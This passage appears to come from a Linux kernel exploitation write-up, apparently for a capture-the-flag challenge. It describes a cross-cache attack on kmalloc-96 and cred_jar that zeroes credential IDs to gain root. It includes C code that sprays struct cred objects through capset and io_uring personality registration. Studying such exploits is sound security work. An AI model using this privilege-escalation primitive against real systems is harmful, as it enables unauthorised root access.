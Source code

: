 
Because of leaking kernel base is impossible to me , I didn't use cross cache technique with `kmalloc-192` and `cred_jar` but with `kmalloc-96` and `cred_jar`,
just set uid, gid, suid, ... to `zero` ( don't need to leak many addresses like keyring and namespace struct).

I've learnt a better way to spary `struct cred` :D, better than spaming high number of threads.

```c
static int sys_io_uring_setup(size_t entries, struct io_uring_params *p)
{
    return syscall(__NR_io_uring_setup, entries, p);
}

static int uring_create(size_t n_sqe, size_t n_cqe)
{
    struct io_uring_params p = {
        .cq_entries = n_cqe,
        .flags = IORING_SETUP_CQSIZE};

    int res = sys_io_uring_setup(n_sqe, &p);
    if (res < 0)
        errExit("uring_create::io_uring_setup");
    return res;
}

static int alloc_n_creds(int uring_fd, size_t n_creds)
{
    for (size_t i = 0; i < n_creds; i++)
    {
        struct __user_cap_header_struct cap_hdr = {
            .pid = 0,
            .version = _LINUX_CAPABILITY_VERSION_3};

        struct __user_cap_data_struct cap_data[2] = {0};

        /* allocate new cred */
        if (syscall(SYS_capset, &cap_hdr, (void *)cap_data))
            errExit("alloc_n_creds::capset");

        if (syscall(SYS_io_uring_register, uring_fd, IORING_REGISTER_PERSONALITY, 0, 0) < 0)
            errExit("alloc_n_creds::io_uring_register");
    }
}
```
